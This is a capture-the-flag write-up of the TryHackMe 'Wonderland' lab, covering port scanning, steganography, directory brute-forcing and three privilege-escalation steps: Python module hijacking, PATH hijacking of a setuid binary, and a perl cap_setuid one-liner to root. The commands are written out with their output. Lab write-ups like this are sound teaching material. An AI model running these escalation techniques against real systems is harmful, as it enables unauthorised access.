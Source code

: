 ```yaml
---
layout: default
title : Wonderland - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[Wonderland](https://tryhackme.com/room/wonderland) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
Nmap scan report for 10.10.252.9
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :

```
bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
```
Turns out, there is a files hidden inside that says this :

```
follow the r a b b i t
```
I didn't understand it at first, but when i brute forced directories i got the idea :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ ffuf -c -u http://10.10.252.9/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

The files was pointing to a path in the browser :

```
http://10.10.252.9/r/a/b/b/i/t/
```

Once i checked the code source i found a hidden text, hidding alice's `SSH` creds :

```
alice:**********************************************
```

## Privilege Escalation :

After some enumeration, i found out that the `/root/` is accessible by everyone but read permission was not given, on the other hand execute permission was present, so we can get the `user.txt`

* #### Rabbit User :

in Alice home directory there is a script that basically import the random module.

So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.
`random.py` :
```python 
import os

os.system("/bin/bash")
```
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

* #### Hatter User :

In `/home/rabbit` we can see a setuid binary, after examining the file, we can see that `date` is getting executed without pecifying an absolute path :

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :

```
rabbit@wonderland:/tmp$ cat date 
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
```
Inside his directory we can find his ssh credentials :

```
hatter@wonderland:/home/hatter$ cat password.txt 
****************************
```

* #### Root :

After some enumeration, linpeas showed something intresting :

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Looks like `perl` have this capability `cap_setuid+ep` and that we can abuse, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) :

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami; id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](bvr0n.github.io/)

<br>

